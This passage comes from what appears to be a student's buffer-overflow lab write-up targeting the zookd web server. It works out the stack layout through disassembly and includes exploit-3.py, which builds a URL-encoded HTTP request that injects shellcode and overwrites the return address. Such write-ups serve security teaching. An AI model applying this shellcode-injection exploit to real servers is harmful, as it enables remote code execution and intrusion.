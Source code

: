 ![](https://i.imgur.com/Oe2AQIq.png)

- To double confirm, we disassembled the function to see the assembly instructions. from line `0x0000555555555822 <+17>:`, it is loading arguments for function in line `zookd.c:109`, which is `reqpath`. We can therefore infer that from `rbp-0x1010` (4112 bytes) is allocated for reqpath, confirming our original understanding. Also, the remaining `16 bytes (4112-4096)` is reserved for `errmsg`

With that being said and done, below shows the overall state of the stack, which will guide us through the remainder of the lab:
![](https://i.imgur.com/FAoJFxc.png)

With these developments, we proceeded to modify `exploit-2.py` in Exercise 2 to only have `4120` bytes, and it worked! Hence, this was the minimum payload length to overwrite the return address and cause a segmentation fault.

### Exercise 3.2

Following the memory location that has been calculated earlier, particularly, the location of `reqpath[0]`, that is `0x7fffffffdcd0`. This marks the location of shellcode to be injected. Here, we accounted for the presence of `/` as a prefix for the URI, hence, the final return address should be `0x7fffffffdcd0 + 1`.

The return address is calculated to be `4096 + 24` bytes from the top of the stack, taking into account of length of `reqpath`, `errmsg with padding`, `rbp`.

After many failed attempts, urllib.quote is used to encode the modified part of the payload to circumvent `http.c:86:"Cannot parse HTTP request (2)"` error.

The python code for the exploit is as follows:

`exploit-3.py`

```python
stack_buffer = 0x7fffffffdcd0
PADDING_BYTES_COUNT = 8
ERR_MSG_BYTES_COUNT = 8
RBP_BYTES_COUNT = 8
def build_exploit(shellcode):
    req = "GET /"
    req += urllib.quote(shellcode + "a" * (4095-len(shellcode)) + "b" * (PADDING_BYTES_COUNT + ERR_MSG_BYTES_COUNT + RBP_BYTES_COUNT) + struct.pack("<Q", stack_buffer+1))
    req +=  " HTTP/1.0\r\n" + \
            "\r\n"
    return req
```

the resultant stack in the server is as follows:
![](https://i.imgur.com/actcKt1.png)

verify that shellcode is loaded properly:
![](https://i.imgur.com/AT5K44J.png)

compare it with the hex binary of shellcode.bin
![](https://i.imgur.com/wo0Ut2h.png)
